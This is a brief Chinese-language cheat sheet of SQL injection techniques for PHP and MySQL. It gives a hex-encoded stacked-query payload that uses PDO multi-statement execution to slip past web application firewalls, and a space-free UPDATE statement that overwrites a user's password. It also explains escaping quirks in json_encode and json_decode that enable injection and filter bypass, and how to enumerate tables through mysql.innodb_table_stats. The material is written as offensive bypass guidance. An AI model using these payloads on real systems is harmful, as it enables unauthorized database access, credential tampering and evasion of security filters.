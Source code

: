 ![](img/pdo.png)

## pdo多语句执行

利用pdo可以多语句执行，可以用如下语句绕过一些waf限制

```
set%20@x=0x73656c65637420736c656570283130293b;prepare%20a%20from%20@x;execute%20a;
```

条件

 - `PDO::ATTR_EMULATE_PREPARES` 为`true` 否则预编译阶段就会报错

## 不用空格和`/*`执行语句

```SQL
update(user)set`password`='1'where`id`=1;
```

## json_encode

json_encode的时候会转义`\`，从而导致单引号逃逸，产生sql注入

## json_decode

json_decode的时候会进行unicode解码，可以通过传入`\u003d`之类的unicode字符绕过waf

## innodb

- mysql>5.7
- 数据库引擎是innodb

可以通过`mysql.innodb_table_stats`查询表名



